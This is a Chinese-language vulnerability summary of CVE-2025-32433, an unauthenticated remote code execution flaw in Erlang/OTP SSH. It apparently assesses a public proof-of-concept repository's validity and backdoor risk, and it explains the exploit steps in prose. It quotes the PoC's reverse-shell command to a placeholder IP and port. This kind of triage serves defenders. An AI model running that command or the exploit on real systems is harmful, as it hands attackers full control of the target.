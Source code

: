 ## CVE-2025-32433-Erlang/OTP SSH-RCE

**漏洞编号:** CVE-2025-32433

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Erlang/OTP SSH

**危害等级:** 高危，允许未经身份验证的远程代码执行

**影响版本:** OTP-27.0-rc1 < OTP-27.3.3, OTP-26.0-rc1 < OTP-26.2.5.11, < OTP-25.3.2.20

**利用条件:** 目标系统运行受影响版本的 Erlang/OTP SSH 服务，且攻击者可以网络访问该服务。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

根据漏洞信息和搜索结果，CVE-2025-32433 漏洞允许未经身份验证的攻击者在受影响的 Erlang/OTP SSH 服务器上执行远程代码。该漏洞源于 SSH 协议消息处理中的缺陷。 

**有效性：**
根据漏洞库信息、搜索结果，以及漏洞利用代码，该漏洞利用是有效的。搜索结果中多个来源都表明该漏洞允许未经身份验证的 RCE，并且提供了 CVSS 评分 10.0。提供的 Python POC 代码通过发送特定序列的 SSH 消息来利用此漏洞，从而在目标系统上执行任意命令。

**投毒风险：**
代码本身存在植入后门的风险较低，因为代码结构清晰，主要功能是构造恶意SSH请求，没有发现明显的可疑代码或恶意行为。然而，任何远程代码执行漏洞都存在被滥用的可能性，如果攻击者利用此漏洞控制系统，则可以植入任意后门。

**漏洞利用方式：**
1.  **连接目标 SSH 服务：**  POC 脚本首先建立与目标 Erlang/OTP SSH 服务器的连接。
2.  **发送初始数据:** 脚本发送任意字符串，模拟SSH握手过程。
3.  **构造恶意 SSH 消息：**  POC 脚本构建并发送特制的 SSH 协议消息，利用协议处理缺陷。
4.  **`build_channel_open()`** 函数构造一个打开 SSH channel 的请求数据包
5.  **`build_channel_request()`** 函数构造一个在 channel 上执行命令的请求数据包. 默认命令是执行反向 shell, 攻击者替换IP和端口即可。
6.  **触发远程代码执行：**  通过发送畸形或者错误的SSH协议消息，服务器处理过程中，没有进行严格校验， 导致远程代码执行。
7.  **反弹 Shell (Reverse Shell)：** 漏洞利用代码中包含反弹 shell 的命令（`bash -i >& /dev/tcp/IP/PORT 0>&1`），表明成功利用漏洞后，攻击者会在目标系统上执行此命令，从而获得对系统的控制权。
8.  **时间延迟：** 代码中包含多个 `time.sleep()` 调用，这可能是为了确保数据包按预期顺序发送，并给服务器足够的时间来处理它们。

总体而言，该漏洞利用方式相对直接，依赖于构造恶意的 SSH 协议消息来触发服务器端的代码执行。成功利用该漏洞将允许攻击者完全控制受影响的系统。

**项目地址:** [tobiasGuta/Erlang-OTP-CVE-2025-32433](https://github.com/tobiasGuta/Erlang-OTP-CVE-2025-32433)

**漏洞详情:** [CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)